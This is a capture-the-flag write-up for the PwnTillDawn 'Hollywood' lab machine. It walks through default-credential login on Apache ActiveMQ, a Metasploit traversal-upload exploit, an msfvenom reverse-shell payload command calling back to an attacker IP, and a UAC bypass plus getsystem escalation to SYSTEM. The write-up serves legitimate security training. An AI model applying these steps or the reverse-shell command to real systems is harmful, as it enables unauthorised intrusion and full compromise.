 ```yaml
---
title: Hollywood Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-27 01:33:00 +0000
categories: [Blogging, PwnTillDawn]
tags: [writeups, tomcat, activemq, msfconsole]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/143771170-b81a10a3-ee70-4748-9d22-a333f4934b5f.png)<br>

**> Information Gathering**<br>
The Default nmap scan showed many active ports on the target. We can see some major ports like `21 (ftp), 25 (smtp), 80 (http), 110 (pop3) 445 (smb), 8080 (tomcat) & 8161 (activemq)`. <br>

`xampp` was found running on the default port 80, directory bruteforcing this page did not yield any results.<br>
![image](https://user-images.githubusercontent.com/67085453/143771194-f7c03df2-0b7d-423d-b38b-0274a88dbb23.png)<br> 

Apache tomcat was setup on port 8080 with `host-manager` login disallowed and the default tomcat credentials did not work on `manager app`. <br>
![image](https://user-images.githubusercontent.com/67085453/143771198-a5910e2c-4eb6-4ea6-8df5-d4113b33f42e.png)<br>

Digging deeper on port 8161, we found apache activemq running.<br>
![image](https://user-images.githubusercontent.com/67085453/143771202-66596cba-e76d-4bfd-a775-823b50e39e77.png)<br>

The first thing i always do is to try the default login creds on webapps. I tried to login with the default username and password `admin:admin` on activemq just like we did on tomcat.<br>
![image](https://user-images.githubusercontent.com/67085453/143771208-19a45234-1010-4920-9086-18e4e135cb26.png)<br>

Luckily for us, the default `admin:admin` worked and we logged in succesfully.<br>
![image](https://user-images.githubusercontent.com/67085453/143771218-f4d9d7bf-0fb8-4199-90b9-0281d43289bc.png)<br>

On the admin dashboard, the version of activemq rnning on the taret is `5.11.1`. We performed a quick google to find any know exploit.<br>
![image](https://user-images.githubusercontent.com/67085453/143771230-8430ca4d-2bf9-45d1-bb9e-bbbe5a968b57.png)<br>

We found a approved exploit from <a href="https://www.rapid7.com/db/modules/exploit/windows/http/apache_activemq_traversal_upload/">rapid7</a>. <br>
![image](https://user-images.githubusercontent.com/67085453/143771368-bc57ac26-72a0-4f4e-b982-31ca164bcce7.png)<br>

Load this module into `msfconsole` using `use windows/http/apache_activemq_traversal_upload`, setup the required module options for this exploit. `RHOST`, `RPORT`, `USERNAME`, `PASSWORD` & `LHOST`. Without these module options setup, the exploit will fail to execute.<br>
![image](https://user-images.githubusercontent.com/67085453/143771382-28b2af4e-35e5-4a15-8943-320554dfcb98.png)<br>

All module options set?? then launch an attack using either `run` or `exploit` command in `msfconsole`. If successful, we should spawn a shell on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143771399-c81cb79d-42f1-4581-92fb-5e861807d80f.png)<br>

**> Post Exploitation**<br>

Winpeas and other tools did not provide me with any good information. So i decided to create a staged payload using `msfvenom`. To create a payload, use this `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.66.66.78 LPORT=4444 -f exe -o test.exe`<br>
![image](https://user-images.githubusercontent.com/67085453/143771410-6614f216-ceec-4ae4-9e1e-58a4c030113a.png)<br>

Then transfered this to the target, setup another msfconsole listerner then executed the `test.exe` on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143771419-56228f2b-f9e5-4c66-8e57-70a71dc04142.png)<br>

We should have another session in the new `msfconsole` listerner. Lets background this session using the command `bg` or `background`. Load `msfconsole` post exploitation module by typing `use post/multi/recon/local_exploot_suggester`. Once the the module is loaded, set the session to your current session using `set session (session number)` and type run.<br>
![image](https://user-images.githubusercontent.com/67085453/143771432-c57fcd1c-60ce-43ea-b241-89537af6b48a.png)<br>

After waiting for sometime for the results of the post module, we realized we could bypass `User Account Control` to become `NT AUTHORITY\SYSTEM`. To do this, we need to load the module `exploit/windows/local/bypassuac_eventvwr`, set `session` and `lhost` then execute the exploit again using either `run` or `exploit`.<br>
![image](https://user-images.githubusercontent.com/67085453/143771442-baefc788-52c1-4ed2-81e5-76ffe38ea966.png)<br>

This module will bypass` Windows UAC` by hijacking a special key in the `Registry` under the current user hive, and inserting a custom command that will get invoked when the `Windows Event Viewer` is launched. We have successfuly hijacked `C:\Windows\System32\eventvwr.exe` on the target But we are still not administrator. So we will use the `getsystem` command. This comand will use a number of different techniques in attempt to gain SYSTEM level privileges on the target<br>
![image](https://user-images.githubusercontent.com/67085453/143771472-beff3526-d40a-4072-badd-7653a1c0e897.png)<br>

The technique worked and we are `NT AUTHORITY\SYSTEM` though the `Named Pipe Impersonation` technique. We have fully compromised this target.<br>
![image](https://user-images.githubusercontent.com/67085453/143771478-9e61baa0-5704-416a-8d9f-bb14ee0c0963.png)<br>


Referrence: <a href="https://online.pwntilldawn.com/">PwnTillDawn Online battlefield</a>
